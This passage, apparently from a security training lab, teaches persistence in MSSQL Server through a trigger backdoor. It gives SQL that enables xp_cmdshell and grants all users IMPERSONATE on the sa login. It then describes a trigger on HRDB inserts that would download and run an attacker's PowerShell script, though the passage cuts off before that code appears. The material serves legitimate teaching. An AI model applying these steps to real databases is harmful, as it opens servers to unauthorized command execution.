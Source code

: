 There are several ways to plant backdoors in MSSQL Server  installations. For now, we will look at one of them that abuses  triggers. Simply put, **triggers** in MSSQL allow you to  bind actions to be performed when specific events occur in the database. Those events can range from a user logging in up to data being  inserted, updated or deleted from a given table. For this task, we will  create a trigger for any INSERT into the `HRDB` database.

Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the `xp_cmdshell` stored procedure. `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL  installation and allows you to run commands directly in the system's  console but comes disabled by default.

To enable it, let's open `Microsoft SQL Server Management Studio 18`, available from the start menu. When asked for authentication, just use **Windows Authentication** (the default value), and you will be logged on with the credentials of  your current Windows User. By default, the local Administrator account  will have access to all DBs.

Once logged in, click on the **New Query** button to open the query editor:

![New SQL query](./assets/eb3aaca1ed1da7d1e08f0c3069a5633a.png)

Run the following SQL sentences to enable the "Advanced Options" in the MSSQL configuration, and proceed to enable `xp_cmdshell`.

```sql
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

After this, we must ensure that any website accessing the database can run `xp_cmdshell`. By default, only database users with the `sysadmin` role will be able to do so. Since it is expected that web applications  use a restricted database user, we can grant privileges to all users to  impersonate the `sa` user, which is the default database administrator:

```sql
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

After all of this, we finally configure a trigger. We start by changing to the `HRDB` database:

```sql
USE HRDB
```

Our trigger will leverage `xp_cmdshell` to execute Powershell to download and run a `.ps1` file from a web server controlled by the attacker. The trigger will be configured to execute whenever an `INSERT` is made into the `Employees` table of the `HRDB` database:

